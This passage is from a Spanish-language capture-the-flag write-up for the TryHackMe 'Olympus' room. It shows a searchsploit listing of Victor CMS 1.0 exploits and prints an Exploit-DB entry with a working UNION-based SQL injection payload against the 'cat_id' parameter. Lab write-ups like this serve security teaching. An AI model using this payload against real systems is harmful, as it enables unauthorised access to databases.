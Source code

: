 ## Análisis de vulnerabilidades

Empezamos buscando en nuestro equipos con

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ searchsploit victor cms
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Victor CMS 1.0 - 'add_user' Persistent Cross-Site Scripting                                                                         | php/webapps/48511.txt
Victor CMS 1.0 - 'cat_id' SQL Injection                                                                                             | php/webapps/48485.txt
Victor CMS 1.0 - 'comment_author' Persistent Cross-Site Scripting                                                                   | php/webapps/48484.txt
Victor CMS 1.0 - 'post' SQL Injection                                                                                               | php/webapps/48451.txt
Victor CMS 1.0 - 'Search' SQL Injection                                                                                             | php/webapps/48734.txt
Victor CMS 1.0 - 'user_firstname' Persistent Cross-Site Scripting                                                                   | php/webapps/48626.txt
Victor CMS 1.0 - Authenticated Arbitrary File Upload                                                                                | php/webapps/48490.txt
Victor CMS 1.0 - File Upload To RCE                                                                                                 | php/webapps/49310.txt
Victor CMS 1.0 - Multiple SQL Injection (Authenticated)                                                                             | php/webapps/49282.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

El segundo resultado nos refiere una posibilidad de SQLi sobre el parametro <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">cat_id</code>&nbsp;&nbsp;y nos remite al fichero <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">php/webapps/48485.txt</code>&nbsp;&nbsp;para mas detalles.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ locate 48485.txt
/usr/share/exploitdb/exploits/php/webapps/48485.txt

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ cat /usr/usr/share/exploitdb/exploits/php/webapps/48485.txt
# Exploit Title: Victor CMS 1.0 - 'cat_id' SQL Injection
# Google Dork: N/A
# Date: 2020-05-19
# Exploit Author: Kishan Lal Choudhary
# Vendor Homepage: https://github.com/VictorAlagwu/CMSsite
# Software Link: https://github.com/VictorAlagwu/CMSsite/archive/master.zip
# Version: 1.0
# Tested on: Windows 10

Description: The GET parameter 'category.php?cat_id=' is vulnerable to SQL Injection

Payload: UNION+SELECT+1,2,VERSION(),DATABASE(),5,6,7,8,9,10+--

http://localhost/category.php?cat_id=-1+UNION+SELECT+1,2,VERSION(),DATABASE(),5,6,7,8,9,10+--

By exploiting the SQL Injection vulnerability by using the mentioned payload, an attacker will be able to retrieve the database name and version of mysql running on the server.   
```
